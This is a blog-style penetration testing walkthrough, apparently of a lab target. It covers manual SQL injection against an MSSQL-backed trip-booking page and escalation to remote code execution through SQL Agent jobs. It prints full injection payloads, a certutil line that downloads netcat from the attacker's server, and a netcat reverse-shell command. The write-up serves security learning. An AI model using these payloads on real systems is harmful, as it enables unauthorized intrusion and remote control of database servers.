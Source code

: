```yaml
---
title: Manual SQLi On MSSQL [ Creating Jobs With Mssql ]
author: r0b0tG4nG
date: 2021-12-17 13:18:00 +0000
categories: [Blogging, Exploiting, Web Applications]
tags: [writeups, sqli, sql injection, burpsuite, shell, xp_cmdshell]
math: true
mermaid: true
---
```


![image](https://user-images.githubusercontent.com/67085453/146534410-1abcfb45-ad47-4adf-b54d-637ea41aedd2.png)

**> Information Gathering**<br>

SQL injection aka `SQLi` is a `web security vulnerability` that allows an attacker to interfere with the queries that an application makes to its database. It generally allows an attacker to view data that they are not normally able to retrieve. This might include data belonging to other users, or any other data that the application itself is able to access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behavior.  More information on <a href="https://portswigger.net/web-security/sql-injection"> PortSwigger</a>
 
On port 80, we can see an amazing web application that's meant for booking trips. It's safe to assume that this is a travel agent website where one can book a destination to a desired location. The target website appears to have static webpages except the `book-trip.php` page. On this page we are presented with a login form which has 3 fields. `1. Destination`, `2. Adults` & `3. Children`.<br>
![image](https://user-images.githubusercontent.com/67085453/146534457-64377610-eb21-4c71-9928-693096c1a99f.png)<br>

In `SQLi`, there are few characters that are capable of triggering an error in a database. These characters are `*, ', " & a few others`. In this engagement, we will use a single `'` quote to test all fields. It's always best to test one field at a time, so let's put single quote `'` in the `destination field` and capture the request in burpsuite for further testing.<br>
![image](https://user-images.githubusercontent.com/67085453/146534508-19900b99-e551-4608-a2ee-beee590510dd.png)<br>

Pushing the request to `burpsuite forwarder`, and sending the request again, we were able to trigger a `sql error`. From the response in burpsuite, the error displayed is `Message: [Microsoft][ODBC Driver 17 for SQL Server][SQL Server]Unclosed quotation mark after the character string ''.` & `Message: [Microsoft][ODBC Driver 17 for SQL Server][SQL Server]Incorrect syntax near ''.`<br>
![image](https://user-images.githubusercontent.com/67085453/146534664-ce769aa7-7712-4149-a2bc-cd167c2f1f4c.png)
<br>

The `destination field` is vulnerable to sql injection. To further exploit this vulnerability, we need to find the number of columns on the target. In `SQL`, the query `Order by` is used to sort the `result-set` in `ascending or descending order.`. To accomplish this, we will modify the data in our request `destination='+order+by+1+--&adults=1&children=1`. Note: we will keep increasing the values till we find the right columns on the target.<br>
![image](https://user-images.githubusercontent.com/67085453/146534570-aea70b24-8a91-45fe-ac13-d07d9b9cc688.png)<br>

The target database has `5 columns` which can be confirmed from the image above. The reason for performing an SQL injection UNION attack is to be able to retrieve the results from an injected query. Generally, the interesting data that you want to retrieve will be in string form, we need to find one or more columns in the original query results whose data type is, or is compatible with, string data. To test this, we will modify our data `destination='+UNION+SELECT+'a',2,3,4,5+--&adults=1&children=1`.  We will keep testing until the `alphabets` we submitted appears in the webapp response.<br>
![image](https://user-images.githubusercontent.com/67085453/146534844-8ee75f58-78a8-4472-9045-76a10d0a14a1.png)<br>

We found the relevant columns that are suitable for retrieving string data. We have all that we need now the next step is to start extracting information from the database. For starters, let's start with the version of SQL server running on the target. We can achieve this using `destination='+UNION+SELECT+1,'a',(SELECT+@@version),3,4+--&adults=1&children=1`<br>
![image](https://user-images.githubusercontent.com/67085453/146534862-13fff3f1-d047-4195-ac8d-cf617f3d2807.png)<br>

We can further enumerate the target database to retrieve information but it's unfortunate i won't dive deep into that. For more information on how to enumerate the database manually, you can check at <a href="https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/">perspectiverisk</a>. For now, let's focus on to enable `xp_cmdshell` on the target.<br>

After trying for some time to enable `xp_cmdshell` manually, i hit a dead-end. I tried all that i know and also followed the steps on both <a href="https://www.mssqltips.com/sqlservertip/1020/enabling-xpcmdshell-in-sql-server/">mssqltips</a> & <a href="https://medium.com/@notsoshant/a-not-so-blind-rce-with-sql-injection-13838026331e">medium.com</a> as well as few others, i failed. I decided to use the automatic method since i know the injection point, it’s easier to do it with `sqlmap`.<br>
![image](https://user-images.githubusercontent.com/67085453/146534917-09c92a28-6a5c-4cfe-a62b-f43254b458f4.png)<br>

Using `sqlmap` didn't do any good. I tried bypassing this feature with some few `sqlmap arguments` but i still failed. Looking at the screenshot above, sqlmap presented us with this error<br> 
```shell
[02:00:34] [WARNING] xp_cmdshell creation failed, probably because sp_OACreate is disabled
[02:00:34] [CRITICAL] unable to proceed without xp_cmdshell
```
<br>

**> Creating MSSQL Jobs Through SQLi**<br>

The question is "how do we do this?? is it even possible??"??  The answer is *YES* it is possible have you heard about `T-SQL`??
`T-SQL (Transact-SQL)` is a set of programming extensions from `Sybase and Microsoft` that add several features to the Structured Query Language (SQL), including transaction control, exception and error handling, row processing and declared variables.

`T-SQL identifiers`, meanwhile, are used in all databases, servers, and database objects in SQL Server. These include the following `tables, constraints, stored procedures, views, columns and data types`. T-SQL identifiers must each have a `unique name, are assigned when an object is created and are used to identify an object`.<br>

With this information, i looked deeper into assigning `T-SQL identifiers` on MSSQL which led to <a href="https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-add-jobserver-transact-sql?view=sql-server-ver15">microsoft T-SQL</a> documentation.<br>

To successfully create a `job` in MSSQL using `T-SQL`, we need two important arguments. These arguments are `[ @job_id = ] job_id` or `[ @job_name = ] 'job_name'` & `[ @server_name = ] 'server`. <br>

> Note: Either job_id or job_name must be specified, but both cannot be specified.

<br>

We have all the information we need but another issue pops up. What's the issue?? how do i create this without any error?? i googled for samples of `T-SQL Jobs` and i came across this website <a href="https://www.mssqltips.com/sqlservertip/3052/simple-way-to-create-a-sql-server-job-using-tsql/">mssqltips</a> which clearly defines a fully functional `T-SQL job`. From the sample on this website, i crafted a `T-SQL query` to test if i can ping my ipaddress  .<br>
```shell
';EXECUTE AS LOGIN = 'daedalus_admin';USE msdb;EXEC sp_delete_job @job_name = N'testping';EXEC dbo.sp_add_job @job_name = N'testping';EXEC sp_add_jobstep @job_name = N'testping', @step_name = N'ping', @subsystem = N'cmdexec', @command = N'c:\windows\system32\cmd.exe /c ping -n 10 10.10.15.25', @retry_attempts = 1, @retry_interval = 5, @proxy_id=1;EXEC dbo.sp_add_jobserver @job_name = N'testping';EXEC dbo.sp_start_job N'testping';--
```
<br>

To identify ping requests, we have to start `tcpdump` on my attacker machine to filter `icmp` on ipaddress of our network interface. We can achieve this by typing `sudo tcpdump -i tun0 icmp`  in this case, i am listening on `tun0` interface. Send the `testping T-SQL` request to the target from burpsuite and i received a ping on my machine.<br>
![image](https://user-images.githubusercontent.com/67085453/146534986-13349439-ead1-4a26-9b33-3d01c7d854bc.png)<br>


If we are able to execute a ping request, then we are two steps away from gaining remote code execution on the target. There are many ways to do this but i will stick to the basic 3:
> 1. Create an msfvenom payload, transfer to the target and execute it.<br>
> 2. Transfer netcat windows binary to the target and execute that for a rev shell<br>
> 3. Use a powershell one-liner to transfer and execute your nishang-tcp-shell script<br>

I will use the second method. First grab netcat windows binary from <a href="https://github.com/int0x33/nc.exe/">int0x33 GitHub repo</a>, then craft a new `T-SQL job` query to transfer the file from your attacking machine to the target machine.<br>
```shell
';EXECUTE AS LOGIN = 'daedalus_admin';USE msdb;EXEC sp_delete_job @job_name = N'testping';EXEC dbo.sp_add_job @job_name = N'testping';EXEC sp_add_jobstep @job_name = N'testping', @step_name = N'ping', @subsystem = N'cmdexec', @command = N'c:\\windows\\system32\\cmd.exe /c certutil -urlcache -f http://10.10.15.25/nc64.exe C:\\Windows\\temp\\nc64.exe', @retry_attempts = 1, @retry_interval = 5, @proxy_id=1;EXEC dbo.sp_add_jobserver @job_name = N'testping';EXEC dbo.sp_start_job N'testping';--
```
<br>

Start python server on the attacking machine using `python -m SimpleHTTPServer port number` or the py3 method `python3 -m http.server port number` then put this `T-SQL` query in burpsuite and forward the request once again. It worked i got a hit from the target machine. `Nc64.exe` is transferred to `C:\\Windows\\temp\\` directory.<br>
![image](https://user-images.githubusercontent.com/67085453/146535020-9cff2fb4-4005-45e1-84f1-6d1c2d7067e1.png)<br>

All we need to do now is to parse our `ipaddress` and `port number` to `nc64.exe` in order to gain a reverse connection to the target machine. As usual we have to modify our `T-SQL` query to perform this action. Once done, modify burpsuite data and send request again. <br>
```shell
';EXECUTE AS LOGIN = 'daedalus_admin';USE msdb;EXEC sp_delete_job @job_name = N'testping';EXEC dbo.sp_add_job @job_name = N'testping';EXEC sp_add_jobstep @job_name = N'testping', @step_name = N'ping', @subsystem = N'cmdexec', @command = N'C:\\Windows\\temp\\nc64.exe 10.10.15.25 445 -e cmd.exe', @retry_attempts = 1, @retry_interval = 5, @proxy_id=1;EXEC dbo.sp_add_jobserver @job_name = N'testping';EXEC dbo.sp_start_job N'testping';--
```
<br>


Whoop Whoop we got a reverse connection to the target machine. I hope you enjoyed the ride and also discovered something new. Kindly subscribe to my <a href="https://www.youtube.com/channel/UCSY-pfwuYspZFlRsO7vBfIQ"> YouTube channel</a> for more contents<br>
![image](https://user-images.githubusercontent.com/67085453/146535039-fc5cc779-43b1-4f0b-83c6-ad7129b54219.png).
